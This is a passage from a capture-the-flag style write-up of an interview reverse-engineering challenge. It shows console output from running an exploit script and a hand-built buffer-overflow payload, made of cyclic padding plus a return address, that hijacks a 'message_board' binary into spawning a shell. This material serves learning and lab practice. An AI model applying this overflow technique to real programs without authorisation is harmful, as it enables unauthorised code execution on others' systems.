 When we run our exploit we get a successful shell on the host computer!

```console
└──╼ [★]$ python3 sol.py
Log in and leave a message to your administrator

User: Password: Message: Sending: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Goodbye!

Welcome to admin mode! Spawning shell.
$ id
uid=1000(htb-0xrogue) gid=1003(htb-0xrogue) groups=1003(htb-0xrogue),27(sudo)
```

Pretty cool for an interview challenge and a bit different from the HTB challenges that I am use too. I also tried the following method of delivering a payload but I kept getting a segmmentation fault after getting a shell.

```console
└──╼ [★]$ echo -en "user\neasy_pass\n$(cyclic 87)\x00\x26\x13\x40\x00\x00\x00\x00\x00" > payload3
─[us-dedivip-1]─[10.10.14.93]─[htb-0xrogue@pwnbox-base]─[~/my_data/HTB/RE]
└──╼ [★]$ ./message_board < payload3
Message Board Writer

Log in and leave a message to your administrator

User: Password: Message: Sending: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaava
Goodbye!

Welcome to admin mode! Spawning shell.
Segmentation fault
```

GG
